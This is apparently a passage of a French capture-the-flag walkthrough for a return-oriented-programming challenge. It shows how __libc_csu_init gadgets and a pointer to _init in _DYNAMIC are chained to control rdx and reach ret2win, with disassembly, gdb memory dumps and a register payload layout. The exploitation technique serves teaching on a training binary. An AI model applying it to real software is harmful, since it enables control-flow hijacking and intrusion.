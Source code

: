 En fait nous devons utiliser un gadget et un pseudo gadget, le premier a `0x40089a` et le deuxième a `0x400880`. 
Nous pouvons grâce a lui modifier le contenus des registres et surtout du registre `rdx`. 
Étant donné que le second gadget n'en n'est pas un, nous devons trouver une technique pour le transformer en gadget tout en évitant de créer une erreur de segmentation dans le flux d’exécution. 

J'ai bien tenté d'utiliser le `call` pour appeler la fonction `ret2win()` mais segfault oblige, j'ai trouver une autre technique menant a un `ret`. 
Pour cela nous allons tout bêtement appeler `_init` :

~~~bash
0000000000400560 <_init>:
  400560:	48 83 ec 08          	sub    rsp,0x8
  400564:	48 8b 05 8d 0a 20 00 	mov    rax,QWORD PTR [rip+0x200a8d]        # 600ff8 <__gmon_start__>
  40056b:	48 85 c0             	test   rax,rax
  40056e:	74 02                	je     400572 <_init+0x12>
  400570:	ff d0                	call   rax
  400572:	48 83 c4 08          	add    rsp,0x8
  400576:	c3                   	ret
~~~

Néanmoins, nous ne pouvons pas l'appeler directement, nous trouvons ce que nous cherchons dans `_DYNAMIC` une variable qui y fait appel :

~~~bash
gdb-peda$ x/16g &_DYNAMIC
0x600e20:	0x1	0x1
0x600e30:	0xc	0x400560
0x600e40:	0xd	0x4008b4
0x600e50:	0x19	0x600e10
0x600e60:	0x1b	0x8
0x600e70:	0x1a	0x600e18
0x600e80:	0x1c	0x8
0x600e90:	0x6ffffef5	0x400298

gdb-peda$ x/g 0x600e38
0x600e38:	0x400560
~~~

Elle n’altère pas `RBX`et offre un joli `ret`
Il faut également prendre garde a ceci : 

~~~bash
 40088d:	48 83 c3 01          	add    rbx,0x1
 400891:	48 39 dd             	cmp    rbp,rbx
400896:	48 83 c4 08          	add    rsp,0x8
~~~

La première partie va ajouter 1 a la valeur de `rbx`(que nous initialiserons a 0). 
La deuxième compare `rbp`et `rbx`, il faut donc initialiser `rbp`a 1.
Pour finir le pointeur de stack est incrémenté de 8. Il faut donc ajouter une valeur de bourrage. 

Maintenant : 
- appel du gadget 1 
- mise en place des données pour chaque registre : 
    - `0x00`pour `rbx`, `r13`, `r14`
    - `0x01`pour `rbp`
    - `0x600e38` pour `r12`
    - `0xdeadcafebabebeef` pour `r15`
- appel du second gadget
- envoie d'une valeur de bourrage sur la stack
- envoie de `0x00` sur tous les registres
- adresse de `ret2win`
